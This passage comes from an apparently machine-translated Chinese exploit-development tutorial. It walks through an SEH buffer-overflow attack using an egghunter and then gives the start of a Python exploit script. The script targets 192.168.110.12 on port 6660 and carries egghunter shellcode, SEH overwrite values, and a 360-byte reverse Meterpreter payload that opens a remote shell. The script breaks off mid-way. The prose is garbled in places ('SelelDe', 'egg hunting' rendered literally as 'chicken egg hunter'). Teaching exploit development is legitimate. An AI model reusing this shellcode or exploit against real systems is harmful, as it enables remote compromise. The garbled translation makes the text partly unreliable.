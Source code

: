 6.  让我们考虑一下，SelelDe 码实际上不是在我们在内存中所做的 6 字节跳跃之后。在这种情况下，我们可以使用鸡蛋猎人对软件进行可靠的攻击。
7.  现在听起来很容易，但也有一些复杂的情况。我们需要按照图中提到的流程进行最终利用，但我们还需要确保代码中有足够的 NOP 来确保利用。

8.  这就是我们的攻击流应该是什么样子，在我们的例子中，我们有足够的内存来拥有外壳代码。但在其他情况下，我们可能没有那么多内存，或者外壳代码可能存储在内存中的其他地方。在这种情况下，我们可以进行鸡蛋狩猎，我们将在后面的食谱中介绍：

![](img/98bb2d9f-1042-4142-a474-9d170c4f0a7f.png)

9.  按照前面的流程图，我们的外壳代码如下所示：

```
        #!/usr/bin/python
        import socket
        target_address="192.168.110.12"
        target_port=6660
        #Egghunter Shellcode 32 bytes
        egghunter = ""
        egghunter += "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\
          x2e\x3c\x05\x5a\x74"
        egghunter += "\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf
          \x75\xe7\xff\xe7"
        # 6 Bytes SHORT jump to shellcode
        nseh = "\xeb\x09\x90\x90"
        # POP+POP+RET 0x0f9a196a
        seh = "\x6a\x19\x9a\x0f"
        #Shellcode Reverse meterpreter. 360 bytes
        buffer = ""
        buffer += "\xdb\xde\xd9\x74\x24\xf4\xbf\xcf\x9f\xb1\x9a\x5e"
        buffer += "\x31\xc9\xb1\x54\x83\xee\xfc\x31\x7e\x14\x03\x7e"
        buffer += "\xdb\x7d\x44\x66\x0b\x03\xa7\x97\xcb\x64\x21\x72"
        buffer += "\xfa\xa4\x55\xf6\xac\x14\x1d\x5a\x40\xde\x73\x4f"
        buffer += "\xd3\x92\x5b\x60\x54\x18\xba\x4f\x65\x31\xfe\xce"
        buffer += "\xe5\x48\xd3\x30\xd4\x82\x26\x30\x11\xfe\xcb\x60"
        buffer += "\xca\x74\x79\x95\x7f\xc0\x42\x1e\x33\xc4\xc2\xc3"
        buffer += "\x83\xe7\xe3\x55\x98\xb1\x23\x57\x4d\xca\x6d\x4f"
        buffer += "\x92\xf7\x24\xe4\x60\x83\xb6\x2c\xb9\x6c\x14\x11"
        buffer += "\x76\x9f\x64\x55\xb0\x40\x13\xaf\xc3\xfd\x24\x74"
        buffer += "\xbe\xd9\xa1\x6f\x18\xa9\x12\x54\x99\x7e\xc4\x1f"
        buffer += "\x95\xcb\x82\x78\xb9\xca\x47\xf3\xc5\x47\x66\xd4"
        buffer += "\x4c\x13\x4d\xf0\x15\xc7\xec\xa1\xf3\xa6\x11\xb1"
        buffer += "\x5c\x16\xb4\xb9\x70\x43\xc5\xe3\x1c\xa0\xe4\x1b"
        buffer += "\xdc\xae\x7f\x6f\xee\x71\xd4\xe7\x42\xf9\xf2\xf0"
        buffer += "\xa5\xd0\x43\x6e\x58\xdb\xb3\xa6\x9e\x8f\xe3\xd0"
        buffer += "\x37\xb0\x6f\x21\xb8\x65\x05\x24\x2e\x46\x72\x48"
        buffer += "\xa5\x2e\x81\x95\xa8\xf2\x0c\x73\x9a\x5a\x5f\x2c"
        buffer += "\x5a\x0b\x1f\x9c\x32\x41\x90\xc3\x22\x6a\x7a\x6c"
        buffer += "\xc8\x85\xd3\xc4\x64\x3f\x7e\x9e\x15\xc0\x54\xda"
        buffer += "\x15\x4a\x5d\x1a\xdb\xbb\x14\x08\x0b\xda\xd6\xd0"
        buffer += "\xcb\x77\xd7\xba\xcf\xd1\x80\x52\xcd\x04\xe6\xfc"
        buffer += "\x2e\x63\x74\xfa\xd0\xf2\x4d\x70\xe6\x60\xf2\xee"
        buffer += "\x06\x65\xf2\xee\x50\xef\xf2\x86\x04\x4b\xa1\xb3"
        buffer += "\x4b\x46\xd5\x6f\xd9\x69\x8c\xdc\x4a\x02\x32\x3a"
        buffer += "\xbc\x8d\xcd\x69\xbf\xca\x32\xef\x9d\x72\x5b\x0f"
        buffer += "\xa1\x82\x9b\x65\x21\xd3\xf3\x72\x0e\xdc\x33\x7a"
        buffer += "\x85\xb5\x5b\xf1\x4b\x77\xfd\x06\x46\xd9\xa3\x07"
        buffer += "\x64\xc2\xb2\x89\x8b\xf5\xba\x6b\xb0\x23\x83\x19"
        buffer += "\xf1\xf7\xb0\x12\x48\x55\x90\xb8\xb2\xc9\xe2\xe8"
        nop = "\x90" * 301
        tag = "w00tw00t"
        buffer1 = "USV "
```